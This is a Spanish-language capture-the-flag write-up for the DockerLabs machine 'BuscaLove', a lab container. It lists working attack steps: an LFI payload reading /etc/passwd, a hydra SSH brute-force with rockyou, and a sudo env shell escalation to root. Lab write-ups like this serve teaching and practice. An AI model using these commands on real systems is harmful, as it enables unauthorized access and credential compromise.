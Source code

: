 ```yaml
---
title: BuscaLove
author: Ldeluq
date: 2019-08-08 14:10:00 +0800
categories: [Ctf, DockerLabs]
tags: [ciber]
render_with_liquid: false
---
```


iniciamos la maquina 

![[Pasted image 20241121181626.png]](/imagenes/Pasted%20image%2020241121181626.png)

analizamos los puertos con nmap  `nmap -p- --open -sCVS -vvv -Pn -n --min-rate 5000 172.18.0.2`

![[Pasted image 20241121181701.png]](/imagenes/Pasted%20image%2020241121181701.png)

buscamos directorios con gobuster `gobuster dir -u "172.18.0.2" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`

![[Pasted image 20241121181919.png]](/imagenes/Pasted%20image%2020241121181919.png)

entramos al link http://172.18.0.2/wordpress/ y vemos el codigo fuente 

![[Pasted image 20241121182104.png]](/imagenes/Pasted%20image%2020241121182104.png)

se verifica que se ueda usar LfI http://172.18.0.2/wordpress/index.php?love=../../../../../../../../../../etc/passwd

![[Pasted image 20241121182234.png]](/imagenes/Pasted%20image%2020241121182234.png)

encontramos dos usuarios pedro y rosa usamos hydra en cada uno para encontrar alguna contrasena la elegida es rosa
`hydra -l rosa -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2 -s 22`

![[Pasted image 20241121182352.png]](/imagenes/Pasted%20image%2020241121182352.png)

encontramos una contrasena para rosa y entramos mediante ssh 

![[Pasted image 20241121182446.png]](/imagenes/Pasted%20image%2020241121182446.png)

listamos los directorios

![[Pasted image 20241121182516.png]](/imagenes/Pasted%20image%2020241121182516.png)

listamos los directorios de root y encontramos un archivo secret.txt lo leemos y encontramos una cadena de carateres que analizamos usando chatgpt 

![[Pasted image 20241121182629.png]](/imagenes/Pasted%20image%2020241121182629.png)

con chatgpt descubrimos que esta en hex y posiblemente ascii o base 32 buscamos un decodificador online 

![[Pasted image 20241121182839.png]](/imagenes/Pasted%20image%2020241121182839.png)

 y tenemos una contrasena noacertarasosi
 probamos con el usurio pedro 

![[Pasted image 20241121182940.png]](/imagenes/Pasted%20image%2020241121182940.png)

listamos los directorios y vemos que tenemos acceso a la dirrecion /usr/bin/env  con gtfobins encontramos como escalar privilegios

![[Pasted image 20241121183102.png]](/imagenes/Pasted%20image%2020241121183102.png)

usamos el comando `sudo /usr/bin/env /bin/sh` y listo somos root


![[Pasted image 20241121183208.png]](/imagenes/Pasted%20image%2020241121183208.png)


